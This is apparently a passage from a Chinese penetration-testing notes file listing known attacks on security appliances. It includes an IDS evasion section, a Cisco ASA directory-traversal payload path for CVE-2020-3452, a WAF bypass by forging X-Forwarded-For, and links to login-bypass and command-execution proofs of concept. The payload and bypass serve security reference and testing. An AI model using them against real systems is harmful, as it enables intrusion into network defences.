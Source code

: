 ## IDS

**文章**
- [IDS逃避技术和对策](https://www.oschina.net/question/12_6140)
- [网络层绕过IDS/IPS的一些探索](https://security.tencent.com/index.php/blog/msg/147)

**绿盟 UTS 综合威胁探针**
- **管理员任意登录**
    - POC | Payload | exp
        - [绿盟UTS综合威胁探针管理员任意登录](https://www.hedysx.com/2612.html)
        - [【干货】绿盟UTS综合威胁探针管理员任意登录](https://www.hackbug.net/archives/112.html)

---

## 网络防火墙

**Cisco ASA**
- **CVE-2018-0296 Cisco ASA Directory Traversal**
    - POC | Payload | exp
        - [yassineaboukir/CVE-2018-0296](https://github.com/yassineaboukir/CVE-2018-0296)

- **CVE-2020-3452**
    - POC | Payload | exp
        ```
        /+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
        ```

---

## WAF

**Sophos XG**
- **CVE-2020-12271 && CVE-2020-15504**
    - 相关文章
        - [Sophos XG - A Tale of the Unfortunate Re-engineering of an N-Day and the Lucky Find of a 0-Day](https://codewhitesec.blogspot.com/2020/07/sophos-xg-tale-of-unfortunate-re.html)

**绿盟 waf 封禁绕过s**
- XFF伪造字段地址为127.0.0.1，导致waf上看不见攻击者地址

---

## 网关

**上海格尔安全认证网关管理系统**
- [上海格尔安全认证网关管理系统命令执行漏洞大礼包](https://php.mengsec.com/bugs/wooyun-2016-0170003.html)
- [上海格尔软件安全认证网关命令执行漏洞（无需登录）](https://php.mengsec.com/bugs/wooyun-2016-0169715.html)
- [上海格尔软件安全认证网关命令执行漏洞（可批量getshell）](https://php.mengsec.com/bugs/wooyun-2016-0170010.html)

---

## 负载均衡
